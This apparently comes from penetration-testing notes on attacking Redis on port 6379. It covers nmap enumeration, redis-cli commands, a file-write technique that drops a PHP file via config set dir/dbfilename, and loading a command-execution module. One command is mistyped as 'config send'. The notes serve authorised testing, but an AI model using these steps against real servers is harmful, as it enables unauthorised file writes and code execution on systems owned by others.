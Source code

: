 ## TCP 6379 Redis


### Enumeration
```
nmap --script redis-info -p 6379 <IP>
```

### Redis CLI

```
sudo apt install redis-tools
redis-cli -h <IP>
```

### Redis Commands

```
INFO - Will return whether authentication is required
AUTH <username> <password> - used to authenticate to the service
SELECT <database number> - select a database
KEYS * - Get all the keys
GET <key> - get a specific key
```

### Redis RCE

In some instances, it may be possible to remotely create a file on the system using the redis commands.  This exploit may be used to create files on the remote system 
```
# Creating a web accessible file
redis-cli -h <IP>
config set dir <remote directory>
config send dbfilename <newfile>.php
set test "<?php phpinfo(); ?>"
save

```
### Redis Shell Module

1. Compile the [redis module] (https://github.com/n0b0dyCN/RedisModules-ExecuteCommand)  
2. Upload the module to the remote server
3. Use the following commands to load the module.
```
MODULE LOAD /path/to/module.so
MODULE LIST
```
3. Execute commands

### Additional Redis References
https://book.hacktricks.xyz/pentesting/6379-pentesting-redis


